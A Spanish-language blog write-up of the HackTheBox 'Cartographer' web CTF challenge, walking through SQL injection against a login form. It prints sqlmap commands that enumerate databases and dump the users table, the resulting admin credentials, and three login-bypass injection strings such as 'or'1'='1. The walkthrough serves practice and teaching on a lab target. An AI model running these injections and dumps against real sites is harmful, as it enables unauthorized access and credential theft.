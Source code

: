 ```yaml
---
Title: Cartographer Writeup HackTheBox Web Challenge
Date: 2019-12-1 4:10
Modified: 2019-12-1 4:10
Category: 
Tags: hackthebox, writeup, web, http, burp
Authors: procamora
Slug: cartographer-writeup-hackthebox-web-challenge
Summary: 
Status: published
Password: HTB
---
```




La descripción del reto es la siguiente:

_Some underground hackers are developing a new command and control server. Can you break in and see what they are up to?_



![Login](/images/2019/cartographer_login.png){:height="auto" width="100%"}




Con esta información no obtenemos ninguna pista de por donde empezar, por lo que la primera opción sera usar un ataque de fuerza bruta al login, pero lamentablemente no se ha conseguido obtener nada con varios diccionarios utilizados.




El segundo paso es probar con SQL Injection, ya que puede ser que funcione, para esto primero se probará con la herramienta _sqlmap_, que permite automatizar este proceso.


Para esto es necesario hacer primero un login y ver cual es la url a la que se envían los parámetros del POST. Se puede ver que se envía a la raíz y que los parámetros son _username_ y _password_. Con esta información ya se puede ejecutar la herramienta, podemos ver la ejecución a continuación:






La primera consulta que se ejecutará será para intentar obtener todas las bases de datos disponibles, esto se realiza con el siguiente comando:



```bash
sqlmap -u http://docker.hackthebox.eu:32093/index.php --data="username=a&password=b" -p "username" --method POST --level=5 --risk=3 --batch --dbs 
```


Obteniendo la siguientes bases de datos, esta claro que la que nos interesa es _cartographer_, por lo que el siguiente paso es obtener las tablas de esa base de datos.

```
available databases [5]:
[*] cartographer
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys

```


Para obtener las tablas de la base de datos _cartographer_ ejecutaremos el siguiente comando:


```bash
sqlmap -u http://docker.hackthebox.eu:32093/index.php --data="username=a&password=b" -p "username" --method POST --level=5 --risk=3 --batch -D cartographer --tables 
```

La única tabla de la base de datos es users, por lo que ahora sería necesario ver los usuarios de esta tabla.


```
users
Database: cartographer
[1 table]
+-------+
| users |
+-------+
```



Para obtener los usuarios, se va a realizar un dump de la base de datos:


```bash
sqlmap -u http://docker.hackthebox.eu:32093/index.php --data="username=a&password=b" -p "username" --method POST --level=5 --risk=3 --batch -D cartographer --dump 
```

Con lo que obtendríamos las credenciales del único usuario que hay creado, que como se puede ver no esta preparado para sacar por fuerza bruta.


```
Database: cartographer
Table: users
[1 entry]
+------------------------------+----------+
| password                     | username |
+------------------------------+----------+
| mypasswordisfuckinawesome123 | admin    |
+------------------------------+----------+
```



Toda la información anterior se puede obtener unicamente con el siguiente comando:

```bash
sqlmap -u http://docker.hackthebox.eu:32093/index.php --data="username=a&password=b" -p "username" --method POST --level=5 --risk=3 --batch --dbs --dump
```


Además hemos obtenido la base de datos que hay, que podría ser usada para buscar alguna vulnerabilidad, esta base de datos es:

```
[21:53:25] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
```



Otra forma más rápida de conseguir un login correcto sería usar directamente SQL Injection sobre el formulario, por ejemplo se podrían poner cualquiera de las tres sentencias en usuario y contraseña:


```sql
'||'1'='1
'or'1'='1
aaa' OR '1'='1
```



Una vez puesto un login valido nos redireccionará a la url _http://docker.hackthebox.eu:32093/panel.php?info=home_, si la analizamos un poco, veremos que usa el fichero _panel.php_ y luego recibe como parámetro _info=home_.


Si usamos comandos como _dirb_ para buscar ficheros y directorios en la web, no se  conseguira nada.



Jugando con el parámetro _info=_ vemos que obtenemos un _Not Found!_, por lo que puede que estemos acercándonos al objetivo.


![error](/images/2019/cartographer_error.png){:height="auto" width="100%"}


Dado que es un CTF y se busca un flag, se prueba a poner _info=flag_ y justamente obtenemos el flag.


![flag](/images/2019/cartographer_flag.png){:height="auto" width="100%"}
